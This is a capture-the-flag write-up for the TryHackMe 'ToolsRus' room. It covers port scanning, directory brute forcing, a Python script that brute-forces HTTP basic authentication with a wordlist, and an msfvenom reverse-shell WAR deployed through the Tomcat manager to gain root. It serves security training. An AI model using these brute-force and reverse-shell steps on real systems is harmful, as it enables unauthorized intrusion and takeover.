 # ToolsRus (THM)

- https://tryhackme.com/room/toolsrus
- March 5, 2023
- easy

---

## Enumeration

### Nmap

1. 22/ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
2. 80/http Apache httpd 2.4.18 ((Ubuntu))
3. 109/pop2 no-response
4. 683/tcp corba-iiop no-response
5. 1234/http Apache Tomcat/Coyote JSP engine 1.1
   - Apache-Coyote/1.1
   - Apache Tomcat/7.0.88
6. 3013/tcp gilatskysurfer no-response
7. 8009/ajp13 Apache Jserv (Protocol v1.3)
8. 8042/tcp filtered fs-agent no-response
9. 9220/tcp filtered unknown no-response
10. 10001/tcp filtered scp-config no-response
11. 33354/tcp filtered unknown no-response
12. 38292/tcp filtered landesk-cba no-response

### 80/http

- directory brute forcing with ffuf

```sh
$ ffuf -u http://$IP/FUZZ -w /usr/share/wordlists/directory-list-2.3-medium.txt -e php,txt -c -t 128
```

- found `guidelines`, `protected`
- http://$IP/guidelines/

```
Hey bob, did you update that TomCat server?
```

- in `protected`, it asks for basic authentication
- write python script to check password

```python
import requests 

url = "http://10.10.39.251/protected/"
s = requests.Session()

with open('/usr/share/wordlists/rockyou.txt', 'r', errors='replace') as f:
    pwds = f.readlines()
    for pwd in pwds:
        pwd = pwd.strip()
        r  =requests.get(url, auth=('bob', pwd))

        print(f"> {pwd} - {r.status_code}")
        if r.status_code != 401:
            break 
```
- found `bob:bubbles`

### 1234/http

- directory brute forcing with ffuf

```sh
$ ffuf -u http://$IP:1234/FUZZ -w /usr/share/wordlists/common.txt -e jsp,txt -c -t 128
docs          [Status: 302, Size: 0, Words: 1, Lines: 1]
examples      [Status: 302, Size: 0, Words: 1, Lines: 1]
favicon.ico   [Status: 200, Size: 21588, Words: 19, Lines: 22]
host-manager  [Status: 302, Size: 0, Words: 1, Lines: 1]
manager       [Status: 302, Size: 0, Words: 1, Lines: 1]

```
- can enter manager login page with above credentials

![](screenshots/2023-03-19-12-26-22.png)

- first create payload with war file which will connect to our local machine

```sh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.8.57 LPORT=4242 -f war -o revshell.war
```

- then upload that revshell.war file here

![](screenshots/2023-03-19-12-42-53.png)

- listen with nc at local machine and click this

![](screenshots/2023-03-19-12-43-37.png)

![](screenshots/2023-03-19-12-43-56.png)

- got root access directly

---